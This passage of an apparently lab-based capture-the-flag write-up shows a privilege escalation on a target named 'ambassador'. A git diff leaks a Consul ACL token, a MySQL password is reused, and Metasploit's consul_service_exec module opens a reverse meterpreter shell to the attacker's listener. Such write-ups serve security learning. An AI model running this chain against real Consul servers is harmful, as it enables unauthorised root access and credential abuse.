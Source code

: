 ```shell
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
 
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
developer@ambassador:/opt/my-app$ 
```

```shell
developer@ambassador:/opt/my-app/whackywidget$ ls -la
total 20
drwxrwxr-x 3 root root 4096 Mar 13  2022 .
drwxrwxr-x 5 root root 4096 Mar 13  2022 ..
-rwxrwxr-x 1 root root  668 Mar 13  2022 manage.py
-rwxrwxr-x 1 root root  228 Mar 13  2022 put-config-in-consul.sh
drwxrwxr-x 2 root root 4096 Mar 13  2022 whackywidget
developer@ambassador:/opt/my-app/whackywidget$ cat put-config-in-consul.sh 
# We use Consul for application config in production, this script will help set the correct values for the app
# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running

consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
developer@ambassador:/opt/my-app/whackywidget$
```

Now It's clear that `Consul` is my way to escalate my privileges, I got a token: `bb03b43b-1d81-d62b-24b5-39540ee469b5` and the MySQL password I got from earlier which is: `dontStandSoCloseToMe63221!`. Time for some more googling again. I ended up using `metasploit` to gain root access on the target machine, but I plan on performing a privilege escalation without metasploit soon.

First I started a port forward from the SSH connection to my local port 8500, then I ran the `metasploit` script:

```shell
└─$ ssh -L 8500:0.0.0.0:8500 developer@$IP
developer@10.129.216.110's password: 

developer@ambassador:~$ 
```

```shell
msf6 > use exploit/multi/misc/consul_service_exec 
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/misc/consul_service_exec) > 
msf6 exploit(multi/misc/consul_service_exec) > set acl_token bb03b43b-1d81-d62b-24b5-39540ee469b5
acl_token => bb03b43b-1d81-d62b-24b5-39540ee469b5
msf6 exploit(multi/misc/consul_service_exec) > set lhost 10.10.16.28
lhost => 10.10.16.28
msf6 exploit(multi/misc/consul_service_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(multi/misc/consul_service_exec) > run

[*] Started reverse TCP handler on 10.10.16.28:4444 
[*] Creating service 'QYjEjgcsk'
[*] Service 'QYjEjgcsk' successfully created.
[*] Waiting for service 'QYjEjgcsk' script to trigger
[*] Sending stage (1017704 bytes) to 10.129.216.110
[*] Removing service 'QYjEjgcsk'
[*] Command Stager progress - 100.00% done (763/763 bytes)
[*] Meterpreter session 1 opened (10.10.16.28:4444 -> 10.129.216.110:58192) at 2022-10-03 17:49:04 -0400
```